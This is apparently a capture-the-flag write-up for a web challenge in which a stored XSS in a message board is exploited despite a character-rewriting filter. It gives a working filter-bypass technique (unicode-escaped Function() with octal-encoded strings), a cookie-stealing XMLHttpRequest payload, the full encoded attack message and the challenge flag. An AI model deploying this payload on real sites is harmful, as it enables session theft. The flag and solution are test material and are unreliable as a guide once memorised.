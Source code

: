 #  Robberts secure messaging service
**Challenge author:** Jimmie Rudvall   
**Category:** Web


## Challenge Description
After years of operating in the shadows, the infamous Robbert — master thief and tech-savvy bandit — has decided to trade in his lockpicks for a keyboard. Inspired by his misadventures and the constant need for secrecy in his line of work, Robbert has launched Robber's Messageboard, a secure communication platform designed to allow robbers to publicly communicate in a secure way.

Robbert has decided to launch a beta version of his message board to be prove to himself that his service is just as well architectured and built as he intend it to be. He's hoping that responsible hackers can leave a message in the unlikely case of a vulnerability being found.

Driven by a combination of excitment and paranoia, Robbert will log in every fifth minute to watch his beautiful creation in action and once every hour to remove all spammy messages, ensuring a good experience for all you enthusiatic robbers!


Author: Jimmie Rudvall

https://rorovovarorsospoprorakokeror.appsec.nu/ 

## Solution
When visiting the website, it prompts the user to either login or to create an account. Once an account has been created, messages can be written and placed onto a message board. 

![message board](robberts_secure_messaging_service/board.png)

If I write a message onto the board, we see that for many characters, some extra characters are appended.  For example, each instance of the character r will be modified and become ror and each f will become fof, and so on. By testing different inputs, I determined that all letters, big or small, will be modified, except for the letters e,i,y,a,o,u which are not modified. Numbers and special characters are also unchanged.

Checking the source code of the website, we see that there is a script tag with some debug code. In this debug code, our inputted message is placed, which can possibly be used to execute JS code. 

![debug code](robberts_secure_messaging_service/script.png)

Let's see if we can exploit this. To stop the string, we'll begin with a `"` after which we will end the `console.log` function by adding `);`. Once the function is ended, some JS payload can be placed, which will be exeuted by the browser. To make the JS valid, we'll add `//` to the end, to make the junk code into a comment. Combining all, we get a possible exploit that looks like this:
`"); PAYLOAD //`.

Let's try it out with a simple string as the payload. The inputed message will be `"); 123abc //`. We see that the string `123abc` is outside the `console.log` function, and that the browser tried to execture the code, but failed since it is not valid JS code. 


![test exploit 1](robberts_secure_messaging_service/test_exploit1.png)


![test exploit 1 response](robberts_secure_messaging_service/test_exploit1_response.png)

We now know that we can craft a message which will make a readers browser execute arbritrary JS code. However, we still have two problems. The first problem being that we cannot put normal JS code as the payload, since most letters will be modified, changing it to invalid JS code. The other problem is that we still need to identify a way we can use the stored XSS vulnerability.


When XSS vulnerability are identified, the first thing I check is whether cookies used by the website can be accessed by JS code. 
![website cookie](robberts_secure_messaging_service/cookie.png)
We see that the `HttpOnly` attribute is set to False. This allows client-side code, such as JS, to access the cookie. Therefore, the goal of our payload will be to read and transfer the cookie of Robbert.

We now need to solve the other problem, finding a way to send a payload which is not modified by the application. To do this, we need to in some way not use most letters. After doing some research, i found that JS code can be executed using [unicode escape sequences](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Regular_expressions/Character_escape). The problem with using unicode escape sequences is that it may still contain some characters which are modified by the web app, since it uses hexadecimal. To limit the usage of unicode, we will choese a function which can execute JS by passing it a string containing JS code. The reason for this is that strings can be encoded using octal encoding, which will only contain the character `\` and numbers.

The JS function I chose is named `Function()`. This function will take a string as input and will execute it once it is called. The reason for choosing this function is that when encoding it into unicode, we get:
`\u0046\u0075\u006E\u0063\u0074\u0069\u006F\u006E`.
This unicode string mostly satisfies the allowed charset which is not changed by the web app. The only problem is the `\u006F` which conatins the letter F. However, the unicode `\u006F` represents the letter `o`, which is unmodified by the web app. This allows us to change the unicode `\u006F` with `o`, giving us the string:
`\u0046\u0075\u006E\u0063\u0074\u0069o\u006E`.

We can now add this to our message:

`"); a=\u0046\u0075\u006E\u0063\u0074\u0069o\u006E; a("PAYLOAD")() //`

This message will allows us to execute any JS code in a readers browser by putting octal encoded JS code in the `PAYLOAD` field.

The payload I used will post a message of the readers (Robberts) cookie to my user message board. 
```
var xhr = new XMLHttpRequest();
xhr.open('POST', 'https://rorovovarorsospoprorakokeror.appsec.nu/messageboard.php', true);
let formData = new FormData();
formData.append("message", document.cookie);
document.cookie = "PHPSESSID=v9j7uk97u29vpunef5cs5i8f9v";
xhr.send(formData);
```
> Note: The document.cookie assignment need to be changed to your cookie to post the message to your board.

Encoding this to octal and putting it as the payload, gives the final message of:

```
"); a=\u0046\u0075\u006e\u0063\u0074\u0069o\u006e; a("\166\141\162\40\170\150\162\40\75\40\156\145\167\40\130\115\114\110\164\164\160\122\145\161\165\145\163\164\50\51\73\40\170\150\162\56\157\160\145\156\50\47\120\117\123\124\47\54\40\47\150\164\164\160\163\72\57\57\162\157\162\157\166\157\166\141\162\157\162\163\157\163\160\157\160\162\157\162\141\153\157\153\145\162\157\162\56\141\160\160\163\145\143\56\156\165\57\155\145\163\163\141\147\145\142\157\141\162\144\56\160\150\160\47\54\40\164\162\165\145\51\73\40\154\145\164\40\146\157\162\155\104\141\164\141\40\75\40\156\145\167\40\106\157\162\155\104\141\164\141\50\51\73\40\146\157\162\155\104\141\164\141\56\141\160\160\145\156\144\50\42\155\145\163\163\141\147\145\42\54\40\144\157\143\165\155\145\156\164\56\143\157\157\153\151\145\51\73\40\144\157\143\165\155\145\156\164\56\143\157\157\153\151\145\40\75\40\42\120\110\120\123\105\123\123\111\104\75\166\71\152\67\165\153\71\67\165\62\71\166\160\165\156\145\146\65\143\163\65\151\70\146\71\166\42\73\40\170\150\162\56\163\145\156\144\50\146\157\162\155\104\141\164\141\51\73")()//
```

After posting this message and waiting five minues, Robberts flag was posted on my message board. 

```
foflolagog=O24%7BobRoroRor34lololol_RoroRorObobobob8o83rororor505_7074kokokoke_cocococ0oKokoKok%21E505_wowowowi707HohoHoh_momomom1LoloLolKokoKok%7Dod;
```
Removing the of, ol, og, etc, we get the flag: **`O24{RoR34lol_RoRObob8o83ror505_7074koke_coc0oKoK!E505_wowi707HoH_mom1LoLKoK}`**

> Note: There is possibly another way to create a message that can be used to execute JS code. There is a languange, which is a subset of JS, called [JSFuck](https://en.wikipedia.org/wiki/JSFuck). This allows any JS code to be executed only using the characters `[]()!+`. This contains no letters, which could solve the challenge. 